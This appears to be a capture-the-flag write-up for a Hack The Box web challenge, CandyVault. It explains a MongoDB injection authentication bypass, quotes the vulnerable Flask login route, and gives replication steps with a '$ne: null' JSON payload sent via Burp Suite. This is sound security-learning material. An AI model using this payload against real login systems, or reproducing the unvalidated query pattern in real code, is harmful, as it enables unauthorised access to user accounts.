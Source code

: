 ### CandyVault Web Challange HTB 

## Executive Summary 

Our testing indicates that the overall security of CandyVault.com requires significant improvement. We identified a critical NoSQL Injection vulnerability in the login functionality, which allowed us to bypass authentication. The main attack vector utilized a NoSQL Injection payload sent via a proxy tool (Burp Suite). This vulnerability exists because the login logic does not properly validate user input, allowing queries to match any document where the email and password fields are not null rather than being valid. 


##  MongoDB Injection authenticaion bypass 


# Description

The login functionality of CandyVault.com is vulnerable to NoSQL Injection due to improper handling of user-supplied input. The application directly incorporates unvalidated email and password values from client requests into MongoDB queries:

```user = users_collection.find_one({"email": email, "password": password})```


Because input is not type-checked or sanitized, an attacker can inject MongoDB operators (e.g., $ne) instead of scalar string values. This allows bypassing of authentication checks by submitting a crafted JSON payload.


# Impact 

Authentication bypass: Attackers can log in without valid credentials.

# Likelihood:
Low likelood but high impact, this vulnerability need access to files to discover but is simple to execute. 


# Evidence 

Snippet from routes.py
```
@app.route("/login", methods=["POST"])
def login():
    content_type = request.headers.get("Content-Type")

    if content_type == "application/x-www-form-urlencoded":
        email = request.form.get("email")
        password = request.form.get("password")

    elif content_type == "application/json":
        data = request.get_json()
        email = data.get("email")
        password = data.get("password")
    
    else:
        return jsonify({"error": "Unsupported Content-Type"}), 400

    user = users_collection.find_one({"email": email, "password": password})

    if user:
        return render_template("candy.html", flag=open("flag.txt").read())
    else:
        return redirect("/")

```

As we can see from the above the ```user = users_collection.find_one({"email": email, "password": password})``` this just needs the fields to exist in database.


Replication steps 

Intercept the /login POST request using Burp suite 

Change Content-Type to application/json.

> We know from files the website uses MongoDB so simple google and find statement that search for email and password that is not null 


Replace the body with payload:

{
  "email": {"$ne": null},
  "password": {"$ne": null}
}


Forward the request.



